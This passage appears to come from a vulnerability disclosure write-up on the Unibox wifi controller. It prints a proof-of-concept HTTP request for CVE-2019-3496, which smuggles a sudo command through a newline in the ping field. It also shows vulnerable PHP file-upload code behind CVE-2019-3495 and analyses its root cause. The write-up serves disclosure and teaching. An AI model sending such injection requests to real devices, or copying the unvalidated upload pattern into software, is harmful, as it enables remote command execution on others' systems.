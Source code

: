 
> POC - CVE-2019-3496

```markdown
POST /tools/controller/diagnostic_tools_controller HTTP/1.1
Host: unibox_3.x
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=<obtained_via_hardcoded_credentials>
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

action=ping&pingIPAddress=127.0.0.1%0asudo /usr/local/unibox/scripts/exeCommand.sh%20id
```

![poc_3](/assets/images/unibox/3.png)

[0]: http://wifi-soft.com/unibox-controller/

### **Root Cause Analysis**
Though the vulnerabilities discussed above are pretty straigh forward to exploit using Blackbox testing approach, but having a look at the code can open a whole new world of learning and developer mindset to us. 

> CVE-2019-3495 - Unibox 0.x-2.x
>> network/mesh/edit-nds.php:57

```php
if ($_POST['sent'] && $_FILES['file']['name']) {

  // Person was using advanced mode, and posted a file to us

  $target_path = $dir . "data/uploads/" . $_COOKIE['user'] . "/" . basename($_FILES['file']['name']);
  if (move_uploaded_file($_FILES['file']['tmp_name'], $target_path)) {
    echo "<script>alert(\"Your file, " . basename($_FILES['file']['name']) . ", has been uploaded to:\\nhttp://" . $_SERVER['HTTP_HOST'] . str_replace("edit-nds.php", "", $_SERVER['REQUEST_URI']) . "data/uploads/" . $_COOKIE['user'] . "/" . basename($_FILES['file']['name']) . "\");</script>";
  }
  else {
    echo "<script>alert(\"There was an error uploading your file, please try again later.\");</script>";
  }
}
```
By looking at the code, one can learn two things first a vulnerable file upload function, second developer's assumption that these files cannot accessed by web GUI (oh yea they are not accessible when following the data flow process in web GUI and a feature denied/ not accessible message is shown). 